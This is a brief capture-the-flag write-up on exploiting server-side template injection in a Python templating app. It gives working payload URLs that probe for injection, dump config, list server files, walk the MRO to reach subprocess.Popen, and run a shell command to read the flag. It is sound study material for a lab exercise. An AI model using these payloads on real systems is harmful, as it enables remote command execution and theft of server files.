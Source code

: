 # Templated

## Keynotes

* python templating
* SSTI (server side template injection)
* method resolution order (MRO)

## Tracking

1. Learned about SSTI which affects python templating frameworks

2. To test our target for SSTI, I called http://target/{{7 * 7}} which displayed 49 - the command was executed so SSTI is possible

3. Trying to find the secret through config attributes, but without success

```
http://target/{{config.items()}}
```

5. Started maping the server's directory structure and found the flag.txt file

```
http://target/{{request.application.__globals__.__builtins__.__import__('os').listdir()}}
```

6. Learned about MROs and used it to access the available subclasses

```
http://target/{{''.__class__.__mro__[1].__subclasses__()}}
```

7. Found subprocess.Popen, which can be used to execute server side commands, on the 414 position

7. Dumped the content of the file identified before and obtained the flag

```
http://target/{{''.__class__.__mro__[1].__subclasses__()[414]('cat flag.txt',shell=True,stdout=-1).communicate()}}
```